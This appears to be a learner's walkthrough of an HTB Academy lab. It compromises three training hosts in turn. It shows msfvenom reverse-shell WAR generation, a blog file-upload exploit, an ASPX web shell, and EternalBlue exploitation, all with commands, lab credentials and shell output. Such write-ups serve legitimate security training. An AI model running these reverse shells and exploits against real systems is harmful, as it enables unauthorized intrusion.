






## The Live Engagement

1. connect to rdp on the target machine.

```
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:$target_ip
```

<p align="center">
  
</p>

2. inspect `access-creds.txt`.

output:
```
to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm


Change the passwords soon..
```

3. go to `172.16.1.11:8080` which is `Host-1`; `hostname` will be displayed in server status. login with `tomcat`'s credentials.

<p align="center">
  
</p>

it also let's us know that `Host-1` is a Windows Server 2019 machine.

4. in `/manager/html`, there is an option to upload a war file. use msfvenom to search for a payload and generate the war payload.

in foothold machine:
```
msfvenom -l payloads | grep -i "jsp"

msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o webshell.war
```

`-p java/jsp_shell_reverse_tcp` - the payload.

`LHOST=172.16.1.5` - the foothold machine ip.

`LPORT=4444` - listener port.

`-f war` - filetype.

`-o webshell.war` - filename.

jsp is java's equivalent of php: technology that allows web servers to generate dynamic web pages and execute java code on the server side.

output:
```
Payload size: 1095 bytes
Final size of war file: 1095 bytes
Saved as: webshell.war
```

5. upload it in `Host-1`.

<p align="center">
  
</p>

6. set up a listener on the foothold machine.

```
nc -lvnp 4444
```

7. navigate to `http://172.16.1.11:8080/webshell/`.

output:
```
listening on [any] 4444 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49842
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```

8. list `C:\Shares` contents.

```
C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>dir C:\Shares
```

`Host-1` is done. moving on to `Host-2`.

9. get linux distro information on `Host-2`.

in foothold machine:
```
nmap -sV -T5 blog.inlanefreight.local
```

10. login to `blog.inlanefreight.local`.

<p align="center">
  
</p>

11. search for `50064.rb` locally in the foothold machine.

```
locate 50064.rb
```

output:
```
/home/administrator/.msf4/modules/blog/50064.rb
/home/administrator/Downloads/50064.rb
/usr/share/exploitdb/exploits/php/webapps/50064.rb
/usr/share/metasploit-framework/modules/exploits/50064.rb
```

12. copy this in the home directory.

```
cp /usr/share/metasploit-framework/modules/exploits/50064.rb .
```

13. do some research about this exploit (can be in your host machine).

```
searchsploit -w 50064
```

output:
```
----------------------------------- --------------------------------------------
 Exploit Title                     |  URL
----------------------------------- --------------------------------------------
Lightweight facebook-styled blog 1 | https://www.exploit-db.com/exploits/50064
----------------------------------- --------------------------------------------
```

it says:
```
'Description'    => %q{
        This module exploits the file upload vulnerability of Lightweight self-hosted facebook-styled PHP blog and allows remote code execution.
      },
```

this server runs php.


14. create the folder where custom php web application modules are stored.

```
mkdir -p ~/.msf4/modules/exploits/php/webapps
```

15. copy `50064.rb` into that folder.

```
cp 50064.rb ~/.msf4/modules/exploits/php/webapps/
```

16. open msfconsole.

```
msfconsole
```

17. rescan and reload metasploit modules.

```
msf6 > reload_all
```

18. search metasploit module database for `50064`.

```
msf6 > search 50064
```

19. use the custom script.

```
msf6 > use exploit/50064
```

20. set required settings.

```
msf6 exploit(50064) > options

msf6 exploit(50064) > set PASSWORD admin123!@#
PASSWORD => admin123!@#
msf6 exploit(50064) > set USERNAME admin
USERNAME => admin
msf6 exploit(50064) > set RHOSTS blog.inlanefreight.local
RHOSTS => blog.inlanefreight.local
msf6 exploit(50064) > set VHOST blog.inlanefreight.local
VHOST => blog.inlanefreight.local
```

21. run the exploit.

```
msf6 exploit(50064) > run
```

output:
```
[*] Got CSRF token: 7fa2c036f3
[*] Logging into the blog...
[+] Successfully logged in with admin
[*] Uploading shell...
[+] Shell uploaded as data/i/4a2S.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 172.16.1.12:4444
[*] Sending stage (39282 bytes) to 172.16.1.12
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:4444) at 2026-11-02 22:51:43 -0500

meterpreter >
```

22. access shell.

```
meterpreter > shell
```

23. read `flag.txt`.

```
cat /customscripts/flag.txt
```

`Host-2` is done. moving on to `Host-3`.

24. go to `http://172.16.1.13/`.

<p align="center">
  
</p>

it looks like we can upload files in `/upload.aspx`.

25. find a way to upload the former section's script `shell.aspx` to the foothold machine.

```
nano shell.aspx
```

don't forget to change `string[] allowedIps = new string[] {"::1","192.168.0.1", "127.0.0.1", "172.16.1.5"};`.

output:
```
shell.aspx has been uploaded to uploads.
```

26. go to `http://172.16.1.13/uploads/shell.aspx`.

<p align="center">
  
</p>

27. get hostname.

```
hostname
```

28. get contents of `Skills-flag.txt`.

```
type C:\Users\Administrator\Desktop\Skills-flag.txt
```

access is denied. i double checked and seen that the file doesn't exist here.

29. since the hostname of `Host-3` hints us towards an eternalblue exploit, let's check if the target has a vulnerable smbv1 implementation.

in the foothold machine:
```
nmap -sCV -T5 172.16.1.13
```

output:
```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 172.16.1.13 - /
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h38m29s, deviation: 4h37m07s, median: -1m30s
|_nbstat: NetBIOS name: SHELLS-WINBLUE, NetBIOS user: <unknown>, NetBIOS MAC: a2:de:ad:3f:6f:47 (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-11-03T04:28:28
|_  start_date: 2026-11-03T01:47:34
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELLS-WINBLUE
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-11-02T20:28:28-08:00
```

this doesn't tell anything about eternalblue vulnerability indicators.

30. test using the auxiliary module in msfconsole.

```
msfconsole

msf6 > use auxiliary/scanner/smb/smb_ms17_010
```

31. set required settings.

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 172.16.1.13
RHOSTS => 172.16.1.13
```

32. run the auxiliary module.

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

output:
```
[+] 172.16.1.13:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 172.16.1.13:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

potentially exploitable `MS17-010` vulnerability.

33. use the eternalblue rce exploit.

```
msf6 > use exploit/windows/smb/ms17_010_psexec
```

34. set required settings.

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 172.16.1.13
RHOSTS => 172.16.1.13
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 172.16.1.5
LHOST => 172.16.1.5
```

35. run the exploit.

```
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

output:
```
[*] Started reverse TCP handler on 172.16.1.5:4444 
[*] 172.16.1.13:445 - Target OS: Windows Server 2016 Standard 14393
[*] 172.16.1.13:445 - Built a write-what-where primitive...
[+] 172.16.1.13:445 - Overwrite complete... SYSTEM session obtained!
[*] 172.16.1.13:445 - Selecting PowerShell target
[*] 172.16.1.13:445 - Executing the payload...
[+] 172.16.1.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 172.16.1.13
[*] Meterpreter session 1 opened (172.16.1.5:4444 -> 172.16.1.13:49672) at 2026-11-02 23:39:24 -0500

meterpreter >
```

36. open a shell connection.

```
meterpreter > shell
```

37. read `Skills-flag.txt`.

```
C:\Windows\system32>type C:\Users\Administrator\Desktop\Skills-flag.txt
```